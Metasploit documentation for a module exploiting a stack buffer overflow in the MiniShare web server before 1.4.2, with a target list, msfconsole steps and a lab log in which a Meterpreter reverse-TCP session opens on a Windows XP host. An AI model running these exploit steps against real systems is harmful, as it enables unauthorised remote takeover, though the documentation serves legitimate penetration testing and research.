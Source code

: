 ## Description

  This is a simple buffer overflow for the MiniShare web
  server. This flaw affects all versions prior to 1.4.2. This
  is a plain stack buffer overflow that requires a "jmp esp" to reach
  the payload, making this difficult to target many platforms
  at once.


## Vulnerable Application

  This module has been successfully tested against MiniShare 1.4.1.

  Version 1.3.4 and below do not seem to be vulnerable.


## Targets

Exploit targets:

```
   Id  Name
   --  ----
   0   Automatic
   1   Windows 2000 SP0-SP3 English
   2   Windows 2000 SP4 English
   3   Windows XP SP0-SP1 English
   4   Windows XP SP2 English
   5   Windows 2003 SP0 English
   6   Windows 2003 SP1 English
   7   Windows 2003 SP2 English
   8   Windows NT 4.0 SP6
   9   Windows XP SP2 Polish
   10  Windows XP SP3 English
   11  Windows XP SP3 French
```


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/http/minishare_get_overflow`
  3. `set rhosts <RHOST>`
  4. `set target <TARGET>`
  5. `check`
  6. `run`
  7. You should get a new session


## Scenarios

### MiniShare 1.4.1 on Windows XP SP 3 English

  ```
  msf5 > use exploit/windows/http/minishare_get_overflow 
  msf5 exploit(windows/http/minishare_get_overflow) > set rhosts
  rhosts => 172.16.191.158
  msf5 exploit(windows/http/minishare_get_overflow) > set target 10
  target => 10
  msf5 exploit(windows/http/minishare_get_overflow) > set verbose true
  verbose => true
  msf5 exploit(windows/http/minishare_get_overflow) > check

  [*] MiniShare version 1.4.1
  [*] 172.16.191.158:80 - The target appears to be vulnerable.
  msf5 exploit(windows/http/minishare_get_overflow) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/http/minishare_get_overflow) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [*] Trying target address 0x7e429353...
  [*] Sending stage (179779 bytes) to 172.16.191.158
  [*] Meterpreter session 10 opened (172.16.191.196:4444 -> 172.16.191.158:1163) at 2018-12-29 06:47:47 -0500

  meterpreter > sysinfo
  Computer        : WINXP
  OS              : Windows XP (Build 2600, Service Pack 3).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter > 
  ```
